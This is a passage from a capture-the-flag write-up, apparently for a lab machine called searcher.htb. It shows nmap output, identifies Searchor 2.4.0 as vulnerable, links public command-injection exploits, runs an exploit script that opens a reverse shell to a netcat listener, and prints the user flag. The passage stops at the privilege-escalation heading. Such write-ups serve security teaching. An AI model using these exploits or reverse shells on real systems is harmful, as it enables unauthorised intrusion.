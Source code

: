Running Nmap Scan again, to check if there are `.git` file hiding.
```shell
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-05 21:47 EDT
Nmap scan report for searcher.htb (10.10.11.208)
Host is up (0.056s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4fe3a667a227f9118dc30ed773a02c28 (ECDSA)
|_  256 816e78766b8aea7d1babd436b7f8ecc4 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Searcher
| http-server-header: 
|   Apache/2.4.52 (Ubuntu)
|_  Werkzeug/2.1.2 Python/3.10.6
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.78 seconds
```

Accessing the port 80, and checking if the version of Searchor is vulnerable
```
view-source:http://searcher.htb/
Searchor 2.4.0 - https://github.com/ArjunSharda/Searchor
```

<br>

## Road to User

### Searchor 2.4.0
https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection
https://github.com/nexis-nexis/Searchor-2.4.0-POC-Exploit-

Running the exploit grants a reverse shell on the netcat listener.
```shell
./exploit.sh searcher.htb 10.10.16.23 9001
```

<br>

### User.txt
```shell
find / -iname user.txt
cat /home/svc/user.txt
8b47f136443bcb0cf381ba4a3576f72f
```

<br>

## Path to Power (Gaining Administrator Access)
